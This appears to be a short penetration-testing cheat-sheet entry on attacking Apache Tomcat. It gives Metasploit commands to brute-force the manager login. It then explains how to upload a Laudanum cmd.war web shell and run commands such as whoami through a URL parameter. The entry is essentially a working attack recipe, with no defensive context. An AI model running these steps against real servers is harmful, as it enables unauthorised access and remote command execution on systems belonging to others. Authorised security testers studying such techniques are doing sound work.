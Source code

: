 # Apache Tomcat 
If you see the default Tomcat Web app and can enter in the username and password for the manager, then you can try to brute for the username and password with the following from metasploit:
```
use auxiliary/scanner/http/tomcat_mgr_login
set RHOST <THE_SERVER>
set RPORT <TOMCAT PORT>
set TARGETURI (if the manager is at a different location than the default /manager)
run
```

If you successfully logged in you can upload a war file
You can find *cmd.war* at **/usr/share/laudanum/jsp/cmd.war**

To access the shell, you must go to where the shell was deployed, below is an example of where it could be deployed:
`Address:8080/cmd/cmd.jsp?cmd=whoami`
